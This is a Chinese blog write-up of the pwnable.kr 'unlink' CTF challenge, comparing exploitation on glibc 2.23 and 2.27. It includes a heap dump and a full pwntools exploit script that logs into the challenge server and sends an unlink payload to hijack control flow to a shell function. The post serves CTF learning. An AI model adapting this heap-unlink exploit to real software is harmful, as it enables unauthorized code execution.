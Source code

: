 <!--yml
category: 未分类
date: 2022-04-26 14:42:31
-->

# PWN unlink [pwnable.kr]CTF writeup题解系列14（包含本地解决方法）_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103850667](https://blog.csdn.net/fastergohome/article/details/103850667)

先看看题目内容：

![](img/488a695b9467eec34dfa008e97f96398.png)

![](img/6b240374b367e15c3b174a881cf2dda7.png)

这个题目是比较经典的unlink题目，网上已经有很多wp介绍了做法，我这里就不多阐述，只是把我对在不同操作系统版本下的理解和大家说一下。

我先把服务器的操作系统相关组件的版本和我自己本机用的docker的操作系统相关组件的版本信息列举一下：

pwnable.kr

```
# Linux prowl 4.4.179-0404179-generic #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# Linux version 4.4.179-0404179-generic (kernel@tangerine) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.10) ) #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019
# Distributor ID:    Ubuntu
# Description:    Ubuntu 16.04.6 LTS
# Release:    16.04
# Codename:    xenial
# (Ubuntu GLIBC 2.23-0ubuntu11) 2.23
# gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 
```

本机

```
# Linux mypwn 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# Linux version 4.9.184-linuxkit (root@a8c33e955a82) (gcc version 8.3.0 (Alpine 8.3.0) ) #1 SMP Tue Jul 2 22:58:16 UTC 2019
# Distributor ID:	Ubuntu
# Description:	Ubuntu 18.04.2 LTS
# Release:	18.04
# Codename:	bionic
# (Ubuntu GLIBC 2.27-3ubuntu1) 2.27
# gcc version 7.4.0 (Ubuntu 7.4.0-1ubuntu1~18.04.1) 
```

这个题目最重要的问题是找到[ebp-4]这个地址作为设置shell的地址，具体细节可以参考更多的wp，这里我就不再详述了。

我给大家看下在我本机的内存heap的情况

```
pwndbg> x/50x 0x9062570-0x10
0x9062560: 0x00000000 0x00000000 0x00000000 0x00000021
0x9062570: 0x09062590 0x00000000 0x00000000 0x00000000
0x9062580: 0x00000000 0x00000000 0x00000000 0x00000021
0x9062590: 0x090625b0 0x09062570 0x00000000 0x00000000
0x90625a0: 0x00000000 0x00000000 0x00000000 0x00000021
0x90625b0: 0x00000000 0x09062590 0x00000000 0x00000000
0x90625c0: 0x00000000 0x00000000 0x00000000 0x00000411
0x90625d0: 0x20776f6e 0x74616874 0x756f7920 0x76616820
0x90625e0: 0x656c2065 0x2c736b61 0x74656720 0x65687320
0x90625f0: 0x0a216c6c 0x000a340a 0x00000000 0x00000000
0x9062600: 0x00000000 0x00000000 0x00000000 0x00000000
0x9062610: 0x00000000 0x00000000 0x00000000 0x00000000
0x9062620: 0x00000000 0x00000000 
```

上面给到的就是heap的起始地址，开始的内存情况，在我的docker里面分配的内存是0x20。所以不同的操作系统的利用脚本是不一样的。

下面我就给出在本机和pwnable.kr上的不同利用的脚本，只要设置debug变量就可以切换

```
#!python
#coding:utf8

from pwn import *

context.log_level = 'debug'
path_name = 'unlink'
process_name = './'+path_name
elf = ELF(process_name)

debug = 0
if debug == 1:
	p = process(argv=[process_name], env={'LD_LIBRARY_PATH':'./'})
else:
	s = ssh(host='pwnable.kr',user=path_name,password='guest',port=2222)
	p = s.process(argv=[path_name], executable='/home/'+path_name+'/'+path_name)

p.recvuntil('here is stack address leak: ')
data = int(p.recvuntil('\n')[:-1], 16)
log.info("stack => %#x", data)
ebp = data + 0x14
p.recvuntil('here is heap address leak: ')
data = int(p.recvuntil('\n')[:-1], 16)
log.info("heap => %#x", data)
heap_addr = data
if debug == 1:
	# Linux mypwn 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
	# Linux version 4.9.184-linuxkit (root@a8c33e955a82) (gcc version 8.3.0 (Alpine 8.3.0) ) #1 SMP Tue Jul 2 22:58:16 UTC 2019
	# Distributor ID:	Ubuntu
	# Description:	Ubuntu 18.04.2 LTS
	# Release:	18.04
	# Codename:	bionic
	# (Ubuntu GLIBC 2.27-3ubuntu1) 2.27
	# gcc version 7.4.0 (Ubuntu 7.4.0-1ubuntu1~18.04.1) 
	payload = p32(elf.symbols['shell']) + '\x00'*16 + p32(0x20+1) + p32(heap_addr+12) + p32(ebp-4)
else:
	# Linux prowl 4.4.179-0404179-generic #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
	# Linux version 4.4.179-0404179-generic (kernel@tangerine) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.10) ) #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019
	# Distributor ID:    Ubuntu
	# Description:    Ubuntu 16.04.6 LTS
	# Release:    16.04
	# Codename:    xenial
	# (Ubuntu GLIBC 2.23-0ubuntu11) 2.23
	# gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 
	payload = p32(elf.symbols['shell']) + '\x00'*12 + p32(heap_addr+12) + p32(ebp-4)
	# # way 2:
	# payload = p32(elf.symbols['shell']) + '\x00'*12 + p32(ebp-8) + p32(heap_addr+12)
p.sendlineafter('get shell!\n', payload)

p.interactive() 
```

估计有很多同学都会看其他wp，发现都是只给出了在pwnable上的解决办法。至于在本机的解决方法在其他人的wp上并没有仔细阐述，所以我这里也是抛砖引玉，和大家分享。